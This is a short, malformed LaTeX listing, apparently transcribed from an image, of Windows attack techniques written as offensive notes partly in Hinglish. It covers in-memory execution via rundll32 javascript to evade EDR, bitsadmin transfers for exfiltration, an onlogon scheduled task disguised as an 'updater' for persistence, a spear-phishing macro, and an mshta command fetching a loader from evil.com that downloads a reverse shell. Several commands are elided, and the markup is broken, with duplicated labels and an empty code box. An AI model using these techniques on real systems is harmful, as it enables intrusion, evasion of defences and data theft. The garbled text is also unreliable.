 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=*,itemsep=0.5em]
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
wmic process call create
\end{verbatim}
\end{tcolorbox}
\item \textbf{Note:}\color{notered} Note: \color{black} Defense-Evasion: EDR detect karega unknown EXE, so we instead \texttt{rundll32.exe javascript:"…";} to execute code in-memory.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
rundll32.exe javascript:"…";
\end{verbatim}
\end{tcolorbox}
\item \textbf{Note:}\color{notered} Note: \color{black} Data Exfil/Download: \texttt{bitsadmin /transfer ...} quietly pulls big files over HTTP/S.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
bitsadmin /transfer ...
\end{verbatim}
\end{tcolorbox}
\item \textbf{Note:}\color{notered} Note: \color{black} Persistence: \texttt{schtasks /create /sc onlogon /tn updater /tr "powershell -file …"}.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
schtasks /create /sc onlogon /tn updater /tr "powershell -file …"
\end{verbatim}
\end{tcolorbox}
\item Spear-phish doc drops macro.
\item \texttt{mshta http[:]//evil.com/loader.hta} downloads reverse shell.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
mshta http[:]//evil.com/loader.hta
\end{verbatim}
\end{tcolorbox}
\item \texttt{rundll32.exe javascript:"\textbackslash\textbackslash..\textbackslash\textbackslash..\textbackslash\textbackslashmshtml,RunHTMLApplication ..."} executes JS in memory.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}

\end{verbatim}
\end{tcolorbox}
\end{enumerate}
\end{document}
